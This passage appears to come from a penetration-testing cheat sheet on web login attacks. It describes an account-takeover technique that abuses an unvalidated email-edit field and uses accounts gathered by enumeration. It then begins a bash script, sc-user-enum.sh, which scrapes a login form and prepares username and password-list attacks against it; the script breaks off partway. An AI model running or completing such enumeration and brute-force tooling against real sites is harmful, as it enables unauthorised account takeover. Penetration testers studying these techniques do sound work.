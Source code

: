 {% step %}
By testing the email edit section, if the system accepts the requested emails as unvalidated, you can enter a valid email using the list of accounts obtained in the Account Enumeration vulnerability
{% endstep %}

{% step %}
The system accepts valid emails without validation, recognizes them as active emails, and logs us into the valid email profile (i.e., logging into the user account)
{% endstep %}
{% endstepper %}

***

### White Box

## Cheat Sheet

### Status Code

#### [FFUF](https://github.com/ffuf/ffuf)

{% hint style="info" %}
Create Script
{% endhint %}

```bash
sudo nano sc-user-enum.sh
```

```bash
#!/bin/bash

# Check if URL is provided
if [ $# -eq 0 ]; then
    echo "Usage: $0 <domain.com/login> <userlist.txt> <passlist.txt>"
    exit 1
fi

URL="$1"
USERLIST="$2"
PASSLIST="$3"

# Fetch login page HTML
HTML=$(curl -s "$URL")

# Extract the first form block (up to </form>)
FORM=$(echo "$HTML" | sed -n '/<form/,/<\/form>/p' | head -n 50)

# Extract form action attribute (default to "/")
ACTION=$(echo "$FORM" | grep -oEi 'action="[^"]*"' | head -1 | cut -d'"' -f2)
if [ -z "$ACTION" ]; then
    ACTION="/"
fi

# Extract form method (default to GET)
METHOD=$(echo "$FORM" | grep -oEi 'method="[^"]+"' | head -1 | cut -d'"' -f2 | tr '[:upper:]' '[:lower:]')
if [ -z "$METHOD" ]; then
    METHOD="get"
fi

# Construct full action URL
if [[ "$ACTION" == /* ]]; then
    BASE_URL=$(echo "$URL" | sed 's|^\(https\?://[^/]*\).*|\1|')
    FULL_ACTION="${BASE_URL}${ACTION}"
```